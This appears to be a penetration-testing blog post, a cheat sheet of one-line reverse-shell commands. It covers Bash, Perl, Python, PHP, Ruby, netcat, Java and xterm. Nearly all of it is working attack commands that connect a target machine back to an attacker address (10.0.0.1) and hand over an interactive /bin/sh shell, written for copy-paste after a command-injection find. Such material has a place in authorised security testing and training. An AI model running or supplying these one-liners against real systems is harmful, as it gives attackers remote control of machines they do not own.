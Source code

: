 ```yaml
---
layout: post
categories: cheatsheets
published: true
---
```

# Summary
{:.no_toc}

* toc
{:toc}

# General

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

# Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# PERL

Here’s a shorter, feature-free version of the   perl-reverse-shell:

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i))))
    {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


# Python

This was tested under Linux / Python 2.7:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

# Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

	nc -e /bin/sh 10.0.0.1 1234

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Java

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

[Untested submission from anonymous reader]

# xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

	xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

	Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

	xhost +targetip
